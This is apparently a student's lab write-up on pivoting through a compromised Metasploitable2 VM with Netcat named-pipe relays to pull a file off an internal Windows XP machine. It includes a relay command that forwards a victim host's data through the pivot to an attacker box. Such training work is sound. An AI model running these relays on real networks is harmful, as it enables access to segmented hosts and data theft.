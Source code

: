 # PROJECTNAME
Pivoting with Relays
## Objective

This lab focused on demonstrating how to pivot through a compromised system using Netcat relays. Simulating a real-world cyberattack, the task was to access a Windows XP machine hidden within a private network by relaying traffic through a compromised Metasploitable2 (MS2) VM from an external Kali Linux attack VM. This exercise helped reinforce the concepts of port forwarding, named pipes, and relay setups, commonly used in red teaming and post-exploitation activities.

### Skills Learned

- Understanding pivoting techniques in segmented network environments

- Setting up and managing Netcat listeners and relays

- Redirecting file contents across virtual machines securely

- Using named pipes to create forward relays in Linux

- Practicing secure information delivery across isolated networks

### Tools Used

-Netcat (ncat-portable-5.59BETA1) – Lightweight networking utility

- MS2 (Metasploitable2) – Intermediate pivot host

- Windows XP VM – Internal target system

- Kali Linux – External attacker system

- mknod, nc, ftp, and basic shell commands for relay setup and file transfers

## Steps
Ref 1: Windows XP — Netcat Listener Setup

Screenshot showing the name of the Windows XP VM and the command that redirects the contents of super_secret_file.txt into Netcat (port 8080).

Ref 2: MS2 — Netcat Forward Relay

Screenshot showing the name of the MS2 VM, the mknod pipe setup, the Netcat relay command (e.g., nc -nlvp 2222 < mypipe | nc <XP-IP> 8080) and an active connection forwarding the file to Kali.

Ref 3: Kali — Receiving the Secret Formula

Screenshot showing the command used on Kali to connect to the MS2 relay (nc <MS2-IP> 2222) and display of the secret contents from the Windows XP file.
